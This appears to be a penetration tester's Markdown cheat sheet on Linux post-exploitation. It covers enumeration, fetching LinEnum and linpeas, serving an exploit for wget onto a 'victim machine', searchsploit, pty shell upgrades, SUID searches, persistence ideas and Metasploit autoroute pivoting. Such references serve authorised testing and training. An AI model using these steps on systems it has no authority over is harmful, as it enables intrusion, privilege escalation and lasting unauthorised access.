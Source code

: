 # Linux Post Exploitation


## Enumeration

    uname -a
       
    ps -aux 
    
    id
    
      Find out if the user is part of groups with interesting files
      
      find / -type f -group <group> 2>/dev/null
   
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
        wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l

    
 
## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
## Local exploits

    searchsploit <linux kernel version>
   
    searchsploit <linux version>
    
    post/multi/recon/local_exploit_suggester


## Upgrading basic shell to terminal 

    python -c 'import pty;pty.spawn("/bin/bash")';
    
    
## Privilege Escalation

[Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[guide to priv escalation](https://payatu.com/guide-linux-privilege-escalation)

Check /etc/passwd for user/ group ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start
    
  - [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
   
        wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
        
        https://book.hacktricks.xyz/linux-unix/privilege-escalation

 **Check for SUID (set owner userId upon execution)**
 
  [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it). When looking at permissions the "x" for the owner will be an "s". [Past shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
   
    find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"


   
 
 ## Maintain persistence

  - Add user
  

  - Metasploit


  - Set a scheduled task
  
  
## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
# Find more

  Metasploit
  
    post/linux/


